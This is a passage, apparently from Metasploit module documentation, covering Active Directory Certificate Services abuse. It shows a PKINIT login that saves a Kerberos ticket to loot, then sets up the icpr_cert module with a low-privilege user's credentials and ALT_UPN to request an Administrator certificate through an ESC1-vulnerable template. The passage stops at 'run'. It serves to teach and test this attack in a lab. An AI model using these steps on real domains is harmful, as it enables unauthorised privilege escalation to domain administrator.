 ```
   Timeout    10                               yes       The TCP timeout to establish connection and read data
   USERNAME                                    no        Override username in certificate file


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/kerberos/pkinit_login) > run
[*] Running module against 172.30.239.85

[*] Attempting PKINIT login for normal@daforest.com
[+] Successfully authenticated with certificate
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/gwillcox/.msf4/loot/20221216145753_default_172.30.239.85_mit.kerberos.cca_452545.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/pkinit_login) > loot

Loot
====

host           service  type                 name             content                   info                                                              path
----           -------  ----                 ----             -------                   ----                                                              ----
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                       /home/gwillcox/.msf4/loot/20221216145113_default_unknown_windows.ad.cs_961069.pfx
172.30.239.85           mit.kerberos.ccache                   application/octet-stream  realm: DAFOREST.COM, client: normal, server: krbtgt/daforest.com  /home/gwillcox/.msf4/loot/20221216145753_default_172.30.239.85_mit.kerberos.cca_452545.bin

msf6 auxiliary(admin/kerberos/pkinit_login) >
```

# Using the ESC1 Vulnerability To Get a Certificate as the Domain Administrator
Getting a certificate as the current user is great, but what we really want to do is elevate privileges if we can. Luckly we can also do this with the `icpr_cert` module. We just need to also set the `ALT_UPN` option to specify who we would like to authenticate as instead. Note that this only works with ESC1 vulnerable certificate templates which is why we can do this here.

If we know the domain name is `daforest.com` and the domain administrator of this domain is named `Administrator` we can quickly set this up:

```
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC1-Template
CERT_TEMPLATE => ESC1-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normaluser
SMBPass => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normal
SMBUser => normal
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN Administrator@daforest.com
ALT_UPN => Administrator@daforest.com
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

```